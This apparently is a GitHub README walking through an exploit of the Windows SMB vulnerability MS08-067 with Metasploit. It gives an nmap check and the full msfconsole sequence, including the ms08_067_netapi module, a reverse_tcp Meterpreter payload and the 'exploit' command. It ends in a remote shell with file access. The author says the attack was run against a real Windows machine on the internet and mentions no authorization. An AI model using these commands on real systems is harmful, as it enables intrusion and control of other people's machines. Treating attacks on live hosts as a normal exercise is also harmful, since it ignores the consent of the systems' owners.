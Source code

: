 penetration test with Metasploit to SMB protocol in machine running Windows Operating System. 

This test done in 2018 on the windows machine located on internet in the real world and gains the full control of the windows command prompt.

Scenario:

(Good old MS08_067 would be a good place to start)

Description: The servers of Microsoft Windows provide support for sharing resources, such as files and print services over a network. This service is vulnerable to remote code execution, and NetAPI32.dll is the cause of this vulnerability.

While windows process a directory traversal (maker) character sequence in path names, there is an error generated in NetAPI32.dll. The vulnerability could be exploited by corrupting stack memory. An example would be sending RPC requests that contain specially crafted(made) path names to the server service component(SRVSVC). The result is full access to the command shell of the target machine.

First, identify that the target Windows is vulnerable to MS08-067 or not. Open your terminal and enter the following Nmap command: nmap -p445 --script smb-vuln-ms08-067

A)Find IP address of each machine with "ifconfig" in Backtrack and in Windows using "ipconfig".

B)In the Backtrack terminal: 1.msfconsole 2.use exploit/windows/smb/ms08_067_netapi

Here we are able to see the options of "SMB" exploit by this command: 3.show options 4.set rhosts <Target_IP>

C)In the next step we need to set up a listener to handle reverse connection from our exploit(if it's successfully triggered):

1.set payload windows/meterpreter/reverse_tcp

2.set lhost <Backtrack_IP>

3.exploit

Note) during the attack, we are able to trace the exploitation step by step through the wireshark.

After watching "session 1 is open" you succeed to enter the target machine. Now you are in the shell of the target and be able to see and change files and folders.

To exit from "Meterpreter" type "quit".
